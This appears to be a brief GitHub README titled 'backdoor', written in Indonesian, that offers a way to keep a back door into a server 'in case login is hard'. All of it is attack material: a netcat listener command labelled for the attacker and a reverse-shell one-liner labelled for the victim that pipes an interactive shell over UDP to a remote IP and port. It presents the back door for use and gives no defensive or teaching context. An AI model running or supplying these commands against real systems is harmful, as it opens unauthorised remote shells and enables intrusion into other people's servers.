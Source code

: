 # backdoor
Buat pintu belakang server kalau misal susah login.

ATTACKER
```nc -nvvlp 6969```

VICTIM
```sh -i >& /dev/udp/10.0.0.1/4242 0>&1```

